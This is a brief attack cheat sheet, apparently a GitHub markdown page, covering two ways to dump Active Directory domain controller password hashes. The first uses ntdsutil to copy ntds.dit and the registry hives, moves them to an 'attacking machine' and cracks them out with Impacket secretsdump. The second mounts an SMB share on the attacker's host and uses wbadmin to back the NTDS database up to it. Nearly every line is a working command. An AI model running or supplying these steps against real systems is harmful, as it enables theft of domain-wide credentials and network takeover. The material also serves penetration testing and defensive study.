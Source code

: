 # DUMP DOMAIN CONTROLLER HASHES LOCALLY WITH NTDSUTIL

## required files: 

### 1) C:\windows\NTDS\ntds.dit

### 2) C:\windows\system32\config\SYSTEM

### 3) C:\windows\system32\config\SECURITY

#### 1) powershell "ntdsutil.exe 'ac i ntds' 'ifm' 'create full c:\temp' q q"

#### 2) Transfer them to attacking machine

#### 3) python3 Impacket-Secretsdump.py -security /path/to/SECURITY -system /path/to/SYSTEM -ntds path/to/ntds.dit local

# DUMP DOMAIN CONTROLLER HASHES WITH WBADMIN

#### 1) Create an new user that maches the "force user" parameter in the /etc/samba/smb.conf file:

#### adduser smbuser

#### smbpasswd -a smbuser

#### sudo service smbd restart 

#### 2) net use k: \\OUR_IP\SHARE /user:smbuser smbpass (Mount the share)

#### 3) echo "Y" | wbadmin start backup -backuptarget:\\OUR_IP\SHARE -include:c:\windows\ntds (Backup NTDS file)
